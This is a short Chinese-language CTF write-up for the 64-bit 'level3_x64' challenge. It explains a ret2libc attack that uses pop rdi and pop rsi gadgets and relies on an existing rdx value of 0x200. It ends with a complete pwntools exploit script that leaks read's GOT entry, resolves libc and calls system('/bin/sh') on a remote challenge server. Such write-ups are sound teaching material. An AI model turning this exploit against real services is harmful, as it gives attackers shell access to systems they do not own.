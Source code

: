和level3基本一样，就是变成了64位程序

也是和前面ret2libc类似，主要还是需要pop这样的gadget

但是问题在于泄漏基地址时write需要三个参数，在64位中是rdi、rsi、rdx三个寄存器中

本来应该对这里面每一个寄存器都赋值的，但是这里有一点就是在执行这个到返回之前有调用这样一个write的过程

![image-20201124204045507](https://static.hack1s.fun/images/2021/02/06/image-20201124204045507.png)

这个过程的第三个参数是`0x200`，也就是说这是rdx的值肯定是大于8的，所以我们可以直接拿来用，不经过原本的修改



那么就只需要找pop rdi 和pop rsi的gadget了

![image-20201124204212562](https://static.hack1s.fun/images/2021/02/06/image-20201124204212562.png)

用到这两个

```python
from pwn import *
from LibcSearcher import *

io = remote('node3.buuoj.cn',26580)
#io = process('./level3_x64')
elf = ELF('./level3_x64')

io.recvuntil('Input:\n')

payload = b'a'*0x80 + b'b'*0x8 + p64(0x4006b3) + p64(1) + p64(0x4006b1) + p64(elf.got['read'])*2 + p64(elf.sym['write']) + p64(elf.sym['vulnerable_function'])
io.send(payload)

real_read = u64(io.recv(8))
libc = LibcSearcher('read',real_read)

libc_base = real_read - libc.dump('read')

payload = b'a'*0x80 + b'b'*0x8 + p64(0x4006b3) + p64(libc_base + libc.dump('str_bin_sh')) + p64(libc_base + libc.dump('system'))
io.send(payload)

io.interactive()
```

